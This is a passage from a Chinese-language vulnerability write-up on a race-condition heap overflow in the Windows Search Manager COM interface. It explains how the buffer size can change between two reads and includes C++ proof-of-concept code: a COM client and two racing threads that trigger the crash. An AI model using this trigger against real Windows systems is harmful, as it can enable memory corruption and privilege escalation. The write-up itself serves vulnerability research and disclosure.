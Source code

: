 [![](https://p2.ssl.qhimg.com/t0168963ecebd03c1f8.png)](https://p2.ssl.qhimg.com/t0168963ecebd03c1f8.png)

如果第一次和第二次的大小不同，则可能会发生堆溢出的情况，特别是在第二次获取到的大小较大的情况下。我们认为，在发生内存复制之前，攻击者可能通过竞争条件更改了pszURL的大小。



## 发生崩溃

通过OleView，我们可以看到Windows Search Manager提供的接口。并且，我们需要根据接口的方法来复现漏洞。

[![](https://p1.ssl.qhimg.com/t011e499e1a1deb2055.png)](https://p1.ssl.qhimg.com/t011e499e1a1deb2055.png)

根据MSDN提供的信息，我们可以使用基于COM的命令行源代码，轻松地对其进行测试。我们编写了用于攻击漏洞所在函数的COM客户端代码，如下所示：

```
int wmain(int argc, wchar_t *argv[])
`{`
    // Initialize COM library
    CoInitializeEx(NULL, COINIT_APARTMENTTHREADED | COINIT_DISABLE_OLE1DDE);

    // Class instantiate
    ISearchRoot *pISearchRoot;
    CoCreateInstance(CLSID_CSearchRoot, NULL, CLSCTX_ALL, IID_PPV_ARGS(&amp;pISearchRoot));

    // Vulnerable functions hit
    pISearchRoot-&gt;put_RootURL(L"Shared RootURL");
    PWSTR pszUrl = NULL;
    HRESULT hr = pSearchRoot-&gt;get_RootURL(&amp;pszUrl);
    wcout &lt;&lt; L"t" &lt;&lt; pszUrl;
    CoTaskMemFree(pszUrl);

    // Free COM resource, End
    pISearchRoot-&gt;Release();
    CoUninitialize();
`}`
```

在此之后，触发漏洞的过程非常简单。我们创建了两个线程：一个线程将不同长度的数据写入共享缓冲区，另一个线程在与此同时从共享缓冲区中读取数据。

```
DWORD __stdcall thread_putter(LPVOID param)
`{`
    ISearchManager *pSearchManager = (ISearchManager*)param;
    while (1) `{`
        pSearchManager-&gt;put_RootURL(L"AA");
        pSearchManager-&gt;put_RootURL(L"AAAAAAAAAA");
    `}`
    return 0;
`}`

DWORD __stdcall thread_getter(LPVOID param)
`{`
    ISearchRoot *pISearchRoot = (ISearchRoot*)param;
    PWSTR get_pszUrl;
    while (1) `{`
        pISearchRoot-&gt;get_RootURL(&amp;get_pszUrl);
    `}`
    return 0;
`}`
```
